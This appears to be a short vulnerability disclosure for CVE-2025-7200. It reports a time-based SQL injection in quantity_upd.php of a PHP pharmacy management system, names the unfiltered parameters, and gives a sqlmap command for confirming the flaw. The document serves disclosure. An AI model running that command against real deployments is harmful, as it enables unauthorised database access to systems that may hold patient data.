



## SQL Injection Vulnerability in Pharmacy Management System

**_Vendor:_** [krishna9772/pharmacy-management-system: pharmacy-management-system php](https://github.com/krishna9772/pharmacy-management-system)

**_CVE_**: CVE-2025-7200

**_[Audit]_**

The parameters `med_name`, `med_cat` and `ex_date` are not filtered in **_quantity_upd.php_**



Time-based SQL injection available

**_[Verify]_**

1. Save a post request as 2.txt



2. Send request with sqlmap

   ```shell
   sqlmap -r 2.txt -p med_name -p med_cat -p ex_date --batch --banner --flush-session
   ```


